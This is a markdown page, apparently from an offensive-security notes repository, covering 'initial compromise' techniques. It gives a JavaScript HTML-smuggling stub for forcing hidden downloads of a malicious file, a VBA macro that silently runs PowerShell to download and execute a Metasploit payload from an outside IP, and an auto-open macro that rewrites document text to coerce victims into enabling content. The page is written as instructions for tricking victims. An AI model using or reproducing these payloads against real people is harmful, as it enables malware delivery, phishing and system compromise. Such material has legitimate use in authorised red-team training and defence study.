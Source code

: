### Initial Compromise

#### HTML Smuggling

Can be used to force download after coercing victim to visit maliciou page. Note, victim is still required to run the downloaded payload manually. 

Base64 encode the malicious file and paste it into the following JavaScript. Then host the file and trick victim into visiting page. 

[Full Source](../src/misc/Stub-HtmlSmuggling.html)

```
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

#### VBA

Microsoft Office products such as Excel and Word can be exploited to execute arbitrary VBA via document Macros. 

**Important** When creating a new macro, ensure to change the "Macros in" value to "this document" to ensure the macro is embedded into the document even on another system. 

##### Office VBA PowerShell Download & Exec File

Use Powershell to download a malicious file, such as an executable, and execute it. Uses WScript Shell. [Full source](../src/visualbasic/PshDownloadExec.vb).

```
Sub MyMacro()
	Dim str As String
	str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
	Shell str, vbHide
	Dim exePath As String
	exePath = ActiveDocument.Path + "\msfstaged.exe"
	Wait (2)
	Shell exePath, vbHide
End Sub
```

##### Office VBA Text Replace Macro

Use for appearances- find & replace text within the document to further coerce the victim to enable document content. 

```
Sub Document_Open()
    SubPage
End Sub

Sub AutoOpen()
    SubPage
End Sub

Sub SubPage()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
End Sub
```